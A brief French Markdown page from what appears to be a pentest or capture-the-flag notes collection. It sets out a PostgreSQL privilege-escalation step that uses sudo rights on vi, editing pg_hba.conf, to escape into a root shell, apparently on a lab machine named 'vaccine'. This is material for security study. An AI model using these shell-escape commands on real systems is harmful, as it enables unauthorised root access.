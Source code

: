<sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](server_procedure.md)</sub>
#Postgre SQL

**Présentation :** Outil de gestion de base de données

**Procédure :**
- Tenter [SUID](suid.md) pour ouvrir un terminal en tant que root
  - si SUID possible avec vim chercher le fichier *pg_hba.conf* : *sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh' /dev/null*
    - Si ok alors entrer :
        <code>:set shell=/bin/sh
        :shell</code>
    - Sinon : *Sorry, user postgres is not allowed to execute '/bin/vi /etc/postgresql/11/main/pg_hba.conf -c :!/bin/sh' as root on vaccine.*

